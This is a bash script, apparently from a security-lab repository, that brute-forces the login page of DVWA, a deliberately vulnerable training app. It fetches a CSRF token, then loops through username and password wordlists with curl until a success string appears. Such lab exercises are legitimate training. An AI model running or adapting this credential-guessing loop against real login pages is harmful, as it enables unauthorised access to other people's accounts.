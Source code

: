 #### Skrypt w `bash` 

```bash
#!/bin/bash

# Function to display usage instructions
display_usage() {
  echo "Usage: $0 <base_url> <username_file> <password_file>"
  echo "Description: This script attempts to find a valid combination of username and password by brute-forcing a login form."
  echo "Arguments:"
  echo "  <base_url>      Base URL of the target application"
  echo "  <username_file> Path to a file containing a list of usernames to try"
  echo "  <password_file> Path to a file containing a list of passwords to try"
}

# Check if the required number of arguments are provided
if [[ $# -ne 3 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=low&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/low/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

find_valid_combo() {
  while IFS= read -r password; do
    while IFS= read -r username; do
      echo -ne "\r\033[0KTrying $username:$password"
      result=$(curl -is -x "http://127.0.0.1:8080" -b dvwa.cookie "$1/vulnerabilities/brute/?username=${username}&password=${password}&Login=Login" | grep -i "password protected area")
      [[ -n "$result" ]] && echo -ne "\r\033[0KValid combo found! It's $username:$password" && exit
    done < "$2"
  done < "$3"
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 || -z $3 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"

# Find valid combination of username and password
find_valid_combo "$1" "$2" "$3"

echo "No valid combo found!"
```
